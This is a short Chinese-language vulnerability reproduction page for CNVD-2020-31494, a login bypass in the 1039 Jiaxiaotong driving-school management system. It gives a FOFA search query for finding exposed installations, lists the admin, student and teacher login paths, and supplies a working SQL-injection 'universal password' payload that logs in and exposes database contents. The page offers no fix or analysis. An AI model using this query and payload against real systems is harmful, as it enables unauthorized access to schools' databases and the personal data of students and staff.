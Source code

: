 # 1039家校通 万能密码绕过 CNVD-2020-31494

## 漏洞描述

北京1039科技发展有限公司是一家专注驾校管理系统、驾校移动办公系统、驾校管理软件、驾校招生小程序开发等,为驾校提供无死角的驾校管理系统解决方案。

北京1039科技发展有限公司驾校管理系统存在万能密码绕过漏洞，攻击者可利用该漏洞获取数据库信息。

## 漏洞影响

> [!NOTE]
>
> 1039家校通 v1.0 - v6.0

## FOFA

> [!NOTE]
>
> title="学员登录_1039家校通"

## 漏洞复现

管理员登录接口为

```
/admin/Product/Comstye.aspx
/Student/StudentLogin.aspx
/Teacher/Index.aspx
```

![](http://wikioss.peiqi.tech/vuln/1039-2.png)

账号密码为如下即可登录

```
user:peiqi
pass:' or ''='
```

![](http://wikioss.peiqi.tech/vuln/1039-1.png)



